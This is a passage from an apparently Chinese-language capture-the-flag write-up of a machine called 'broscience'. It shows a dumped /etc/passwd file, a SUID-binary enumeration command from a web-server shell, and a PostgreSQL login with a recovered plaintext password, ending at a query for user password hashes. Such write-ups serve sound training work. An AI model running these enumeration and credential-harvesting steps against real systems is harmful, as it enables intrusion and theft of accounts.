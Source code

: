     rtkit:x:107:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
    sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
    dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    avahi:x:110:116:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
    speech-dispatcher:x:111:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
    pulse:x:112:118:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
    saned:x:113:121::/var/lib/saned:/usr/sbin/nologin
    colord:x:114:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
    geoclue:x:115:123::/var/lib/geoclue:/usr/sbin/nologin
    Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
    bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
    _laurel:x:998:998::/var/log/laurel:/bin/false

看到 bill 账号，可能有用

查看一下 suid

    www-data@broscience:/var/www$ find / -user root -perm -4000 -print 2>/dev/null
    <w$ find / -user root -perm -4000 -print 2>/dev/null
    /usr/lib/xorg/Xorg.wrap
    /usr/lib/openssh/ssh-keysign
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/sbin/pppd
    /usr/bin/vmware-user-suid-wrapper
    /usr/bin/newgrp
    /usr/bin/fusermount3
    /usr/bin/passwd
    /usr/bin/su
    /usr/bin/sudo
    /usr/bin/chfn
    /usr/bin/mount
    /usr/bin/ntfs-3g
    /usr/bin/umount
    /usr/bin/gpasswd
    /usr/bin/chsh
    /usr/libexec/polkit-agent-helper-1

## psql 获取加密密码

查看数据库，使用命令行进行连接

```shell
www-data@broscience:/tmp$ psql -h localhost -p 5432 -U dbuser -d broscience
psql -h localhost -p 5432 -U dbuser -d broscience
Password for user dbuser: RangeOfMotion%777

psql (13.9 (Debian 13.9-0+deb11u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

broscience=> \dt
\dt
WARNING: terminal is not fully functional
-  (press RETURN)
           List of relations
 Schema |   Name    | Type  |  Owner
--------+-----------+-------+----------
 public | comments  | table | postgres
 public | exercises | table | postgres
 public | users     | table | postgres
(3 rows)

broscience=> select username,password from users;
```